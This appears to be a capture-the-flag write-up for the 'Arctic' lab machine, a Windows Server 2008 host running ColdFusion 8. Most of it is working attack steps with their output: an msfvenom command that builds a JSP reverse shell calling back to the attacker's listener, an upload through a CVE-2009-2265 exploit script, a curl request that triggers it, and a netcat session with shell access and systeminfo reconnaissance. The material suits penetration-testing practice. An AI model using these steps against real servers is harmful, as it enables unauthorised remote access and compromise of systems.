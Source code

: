 


## Reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.30 LPORT=9000 -f raw > reverseshell.jsp

Upload it
```
./CVE-2009-2265.py 10.10.10.11 8500 reverseshell.jsp
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

```

Run it
```
$ curl http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

Netcat
```
# nc -lvp 9000
listening on [any] 9000 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.11] 49262
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
c:\> type \Users\tolis\Desktop\user.txt
XXXXXXXXXXXXXXX
```

## post/multi/recon/local_exploit_suggester



## systeminfo

````
C:\>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
````
